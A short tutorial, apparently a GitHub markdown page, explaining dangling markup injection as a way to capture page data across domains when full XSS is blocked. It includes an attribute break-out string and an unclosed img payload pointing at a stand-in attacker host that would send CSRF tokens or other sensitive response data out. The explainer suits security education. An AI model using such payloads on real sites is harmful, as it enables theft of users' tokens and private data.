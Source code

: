 # What is dangling markup injection?
- Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.
- Suppose an application embeds attacker-controllable data into its responses in an unsafe way:
```
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```
- Suppose also that the application does not filter or escape the > or " characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context:
```
">
```
- In this situation, an attacker would naturally attempt to perform XSS. 
- But suppose that a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. 
- Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:
```
"><img src='//attacker-website.com?
```
- This payload creates an img tag and defines the start of a src attribute containing a URL on the attacker's server. 
- Note that the attacker's payload doesn't close the src attribute, which is left "dangling". 
- When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. 
- Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. 
- Any non-alphanumeric characters, including newlines, will be URL-encoded.
- The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. 
- Depending on the application's functionality, this might include CSRF tokens, email messages, or financial data.
- Any attribute that makes an external request can be used for dangling markup.